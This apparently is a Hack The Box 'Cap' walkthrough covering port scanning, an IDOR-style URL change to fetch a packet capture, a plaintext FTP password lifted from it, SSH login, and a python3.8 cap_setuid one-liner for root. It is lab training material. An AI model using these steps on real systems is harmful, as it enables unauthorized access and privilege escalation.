 # CTF: [HTB Cap](https://app.hackthebox.eu/machines/Cap)

## Enumeration
```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
```
Navigate the website on port 80. It seems like we are already logged in as the admin. Check out the Security Dashboard.
<br/><br/>
Append a '0' to the URL instead of '1', watch the number of packets go up.
<br/><br/>
http://10.10.10.245/data/1 > http://10.10.10.245/data/0
<br/><br/>
Download the .pcap file. Open the file, somewhere in it you should find some credentials.
```
s�^@^@USER nathan
Vw�`�J^A^@8^@^@^@8^@^@^@^@^D^@^A^@^F^@^L)� �^@^@^H^@E^@^@(su@^@@^F�����^P���^A^@^Uԋ^["\�`�x_P^P^A�      ~^@^@Vw�`$>
Vw�`��^A^@>^@^@^@>^@^@^@^@^@^@^A^@^F^@PV�^@^H^@^@^H^@E^@^@(^N%@^@�^F�G���^A���^Pԋ^@^U`�x_^["]^LP^P^P
p�^@^@^@^@^@^@^@^@Ww�`��^E^@N^@^@^@N^@^@^@^@^@^@^A^@^F^@PV�^@^H^@^@^H^@E^@^@>^N&@^@�^F�0���^A���^Pԋ^@^U`�x_^["]^LP>
J�^@^@PASS Buck3tH4TF0RM3!
```
Log in with these credentials through SSH:
```
$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Sep 28 11:26:38 UTC 2021

  System load:  0.0               Processes:             223
  Usage of /:   36.7% of 8.73GB   Users logged in:       0
  Memory usage: 21%               IPv4 address for eth0: 10.10.10.245
  Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ 
```
# user.txt
The user flag should be in Nathan's home directory.
# Privilege escalation
Run `getcap -r / 2>/dev/null`.
```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
`/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip` looks interesting. Find out more about this on [GTFOBins](https://gtfobins.github.io/gtfobins/python/).<br><br/>
"If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID."
Execute this command to escalate to root:
```
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
Navigate to /root and find the root flag.
